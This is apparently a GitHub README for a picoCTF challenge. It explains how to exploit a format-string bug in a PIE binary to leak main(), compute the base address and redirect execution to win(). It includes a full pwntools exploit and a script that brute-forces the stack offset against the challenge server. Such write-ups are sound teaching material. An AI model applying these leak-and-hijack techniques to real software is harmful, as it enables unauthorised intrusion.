

# Format String Exploit – PIE + win() Hijack

This repository contains an exploit for a binary (`vuln`) that has a format string vulnerability. The goal is to leak the address of `main()`, calculate the base address of the PIE binary, and redirect execution to a hidden `win()` function.

---

## 🔍 Challenge Overview

- **Vulnerability:** Format string
- **Protection mechanisms:**
  - PIE: Enabled ✅
  - NX: Enabled ✅
  - RELRO: Full ✅
  - Stack Canary: Present ✅
  - Stripped: No ❌ (symbols are available)
- **Goal:** Call the `win()` function by leaking PIE base and sending the correct address when prompted.

---

## 🧠 Exploit Logic

1. **Leak main() address** using a format string payload like `%23$p`.
2. **Calculate PIE base** using the leaked address and ELF symbol offset of `main`.
3. **Resolve win() address** using `elf.symbols['win']`.
4. **Send win() address** when prompted for an input like `enter the address to jump to, ex => 0x12345`.
5. **Get shell / win condition.**

---

## 🧪 Tested On

- Python 3.x
- `pwntools` (`pip install pwntools`)
- Local and Remote CTF environments (e.g., picoCTF)

---

## 🧰 Exploit Code

```python
from pwn import *

# Set binary and context
elf = context.binary = ELF('./vuln')
context.log_level = 'debug'

# === Set LOCAL to True to test locally ===
LOCAL = True  # Set to False for remote

# Connect locally or remotely
if LOCAL:
    p = process(elf.path)
else:
    p = remote('rescued-float.picoctf.net', 60937)

# === Step 1: Leak address of main() using format string ===
p.sendline(b"%23$p")  # Change this offset if necessary for remote

# === Step 2: Receive leak ===
leaked = p.recvline()
log.info(f"Leaked PIE address line: {leaked}")

try:
    leaked_main = int(leaked.strip().split(b':')[-1], 16)
    log.success(f"Leaked main(): {hex(leaked_main)}")
except Exception as e:
    log.error(f"Could not parse leaked address: {e}")
    exit()

# === Step 3: Calculate PIE base and win() ===
log.info(f"elf.symbols['main'] = {hex(elf.symbols['main'])}")
elf.address = leaked_main - elf.symbols['main']
log.success(f"PIE base: {hex(elf.address)}")

win_addr = elf.symbols['win']
log.success(f"win() = {hex(win_addr)}")

# === Step 4: Wait for input prompt and send win() address ===
p.recvuntil(b"ex =>")
p.sendline(hex(win_addr).encode())  # Send as hex string

# === Step 5: Interactive shell ===
p.interactive()

```


## 🧠 Notes

* The offset `%23$p` may vary between local and remote. Use a brute-force script like below to find the correct one:

```python
from pwn import *

binary = context.binary = ELF('./vuln')
context.log_level = 'error'

REMOTE = True  # Set to True for remote
HOST = 'rescued-float.picoctf.net'
PORT = 60937

def leak_value(idx):
    if REMOTE:
        p = remote(HOST, PORT)
    else:
        p = process(binary.path)

    payload = f"%{idx}$p".encode()
    try:
        p.sendline(payload)
        p.recvuntil(b"Enter your name:")  # adjust if needed
        leaked = p.recvline(timeout=1).strip()
        p.close()
        return leaked
    except:
        p.close()
        return b''

# Step 1: Brute-force format string stack offset
for i in range(1, 50):
    leak = leak_value(i)
    if leak:
        print(f"[{i:02}] -> {leak}")
        # Highlight likely PIE addresses (usually start with 0x55 or 0x56)
        if leak.startswith((b'0x55', b'0x56', b'0x5f', b'0x60', b'0x61', b'0x62', b'0x63', b'0x64', b'0x65')):
            print(f"  [*] Possible PIE address at offset {i}: {leak.decode()}")

```

* The PIE base is computed using:

  ```bash
  pie_base = leaked_main - elf.symbols['main']
  ```


---

## ✅ Outcome



---
